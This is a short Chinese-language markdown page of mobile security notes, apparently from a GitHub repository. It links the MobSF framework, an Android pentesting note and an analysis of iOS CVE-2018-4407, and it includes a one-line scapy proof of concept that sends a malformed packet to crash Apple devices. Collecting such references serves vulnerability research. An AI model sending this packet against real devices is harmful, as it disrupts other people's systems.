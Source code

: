 # MobileSec

> 移动安全这块内容我不是很懂,稍微收集一些,可能分类不准确

**工具**
- [MobSF/Mobile-Security-Framework-MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) - 一个自动化的、一体化的移动应用程序(安卓/iOS/Windows)测试、恶意软件分析和安全评估框架，能够执行静态和动态分析。

## Android

**笔记**
- [安卓渗透](./笔记/RedTeam/安卓渗透.md)

## IOS
### IOS_CVE漏洞记录

**CVE-2018-4407**
- 文章
    - [远程打挂所有的 apple 设备 — CVE-2018-4407 分析](https://mabin004.github.io/2018/11/01/%E8%BF%9C%E7%A8%8B%E6%89%93%E6%8C%82%E6%89%80%E6%9C%89%E7%9A%84apple%E8%AE%BE%E5%A4%87-CVE-2018-4407-%E5%88%86%E6%9E%90/)

- POC | Payload | exp
    ```bash
    $sudo scapy
    >>send(IP(dst="192.168.1.151",options=[IPOption("A"*8)])/TCP(dport=8888,options=[(19, "1"*33)]))
    ```
